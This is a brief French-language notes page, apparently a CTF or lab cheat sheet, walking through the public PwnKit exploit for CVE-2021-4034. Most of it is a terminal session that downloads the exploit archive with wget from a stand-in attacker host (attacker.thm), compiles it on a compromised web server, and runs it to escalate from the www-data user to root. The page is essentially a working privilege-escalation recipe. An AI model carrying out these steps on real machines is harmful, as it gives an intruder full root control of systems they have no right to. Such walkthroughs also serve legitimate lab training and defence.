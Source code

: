 # ♟ pwnkit CVE-2021-4034 Linux PrivEsc

d'abord télécharger le zip de la cve 2021-4034 sur Github

puis:

<pre class="language-bash"><code class="lang-bash">$ wget http://attacker.thm:8000/pwnkit.zip

--[redacted]-- http://attacker.thm:8000/pwnkit.zip
Connecting to attacker.thm:8000... connected.
HTTP request sent, awaiting response... 200 OK
Length: 6457 (6.3K) [application/zip]
Saving to: 'pwnkit.zip'0K ...... 100% 2.42M=0.003s[redacted] (2.42 MB/s) - 'pwnkit.zip' saved [6457/6457]

$ unzip pwnkit.zip
<strong>
</strong><strong>Archive: pwnkit.zip
</strong>55d60e381ef90463ed35f47af44bf7e2fbc150d4
creating: CVE-2021-4034-main/
inflating: CVE-2021-4034-main/.gitignore
inflating: CVE-2021-4034-main/LICENSE
inflating: CVE-2021-4034-main/Makefile
inflating: CVE-2021-4034-main/README.md
inflating: CVE-2021-4034-main/cve-2021-4034.c
inflating: CVE-2021-4034-main/cve-2021-4034.sh
creating: CVE-2021-4034-main/dry-run/
inflating: CVE-2021-4034-main/dry-run/Makefile
inflating: CVE-2021-4034-main/dry-run/dry-run-cve-2021-4034.c
inflating: CVE-2021-4034-main/dry-run/pwnkit-dry-run.c
inflating: CVE-2021-4034-main/pwnkit.c

$ cd CVE-2021-4034-main/

$ pwd
/var/www/html/CVE-2021-4034-main

$ make
cc -Wall --shared -fPIC -o pwnkit.so pwnkit.c
cc -Wall cve-2021-4034.c -o cve-2021-4034
echo "module UTF-8// PWNKIT// pwnkit 1" > gconv-modules
mkdir -p GCONV_PATH=.
cp -f /bin/true GCONV_PATH=./pwnkit.so:.

$ id
uid=33(www-data) gid=33(www-data) groups=33(www-data)

$ ls
GCONV_PATH=.
LICENSE
Makefile
README.md
cve-2021-4034
cve-2021-4034.c
cve-2021-4034.sh
dry-run
gconv-modules
pwnkit.c
pwnkit.so

$ ./cve-2021-4034
# id
uid=0(root) gid=0(root) groups=0(root),33(www-dat
</code></pre>
